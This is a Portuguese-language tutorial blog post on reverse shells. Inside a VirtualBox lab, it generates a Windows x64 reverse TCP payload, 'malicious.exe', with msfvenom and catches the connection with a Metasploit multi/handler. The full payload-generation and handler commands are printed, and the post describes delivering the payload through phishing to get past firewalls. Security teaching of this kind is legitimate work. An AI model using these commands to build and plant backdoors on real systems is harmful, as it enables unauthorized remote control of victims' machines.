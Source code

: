 ```yaml
---
layout: default
title: Reverse Shell com MSFVenom e Metasploit
permalink: /artigos/03.md/
---
```


## Shell Reverso com MSFVenom e Metasploit

Nesse artigo vou falar sobre a técnica de conexão reversa, ou seja, a conexão iniciada a partir da máquina do cliente/vítima para o servidor C2 (C&C - Command and Control). O nomes mais comum desse tipo de ataque é backdoor. Essa técnica utiliza como vetor os ataques de phishing e engenharia social para induzir a vítima a clicar em um link e fazer o download do script ou executável que será utilizado para iniciar a conexão reversa.

Geralmente em um ambiente controlado, a arquitetura da rede inclui firewall no perímetro e muitas vezes firewall entres as redes LAN com filtros de segurança como IPS e Antimalware habilitado. O tráfego de entrada é bloqueado com exceção de algumas portas de serviços específicos expostos na internet. O shell reverso nesse cenário consegue fazer o "bypass"  do firewall ao estabelecer uma conexão a partir da rede interna usando portas conhecidas como 80 - HTTP, 443 - HTTPS.

A figura abaixo ilustra como ocorre o bypass do firewall. Quando o script com o payload do shell reverso é executado, a máquina da rede interna inicia a conexão com um servidor externo. 

![topologia de rede](https://carineconstantino.github.io/cybersecurity/artigos/imagens/topologia_rede.jpg)

## Executando o shell reverso

No ambiente de teste, eu utilizo duas máquinas virtualizadas com VirtualBox. A máquina Kali Linux com IP 192.168.0.17 é o servidor C2 e a máquina Windows 7 com IP 192.168.0.11 é o cliente/vítima. 

## Gerando o payload com o MSFVenom 

A architetura da máquina onde o ataque vai acontecer deve ser levada em consideração na criação do payload. A opção ```-a x64``` define o executável compatível com architetura 64bits do Windows 7. Neste sentido, a plataforma é definida com a opção ```--platform windows``` 

```msfvenom -p windows/X64/shell/reverse_tcp -a x64 --platform windows -f exe LHOST=192.168.0.17 LPORT=80 -o /tmp/malicious.exe ```

![msfvenom_command](https://carineconstantino.github.io/cybersecurity/artigos/imagens/comando_msfvenom.png)

A máquina Kali vai receber a conexão da vítima e para que essa comunicação aconteça, é necessário habilitar um "listening" com o multi/handler ```msf> use multi/handler``` Feito isso, configure o mesmo payload dentro das opções do handler ```set payload windows/x64/shell/reverse_tcp``` O multi/handler é o módulo que permite gerenciar a conexão reversa iniciada pela vítima. 

Ao executar o arquivo malicious.exe na máquina Windows 7, o kali recebe a conexão e o prompt do cmd do windows.

![execucao_shell01](https://carineconstantino.github.io/cybersecurity/artigos/imagens/execucao_shell.png)

![execucao shell02](https://carineconstantino.github.io/cybersecurity/artigos/imagens/execucao_shell02.png)


## O que é MSFVenom ?

De acordo com o site da [Offensive Security](https://www.offensive-security.com), o MSFVenom é um framework e a partir de 2015 substituiu os módulos **msfpayload** e **msfencode**

O MSFVenom fornece uma grande variedade de payloads para Windows, Linux, PHP, java, etc Para visualizar quais payloads estão disponíveis para linux use o seguinte comando:

```msfvenom -l payloads | grep linux | more```

Use o grep para filtro e o more para a saída do comando ser paginada.

Diferente do Metasploit, no MSFVenom não é necessário acessar um prompt/interface, o próprio framework inicia o comando para criação do payload como podemos ver no exemplo acima. 

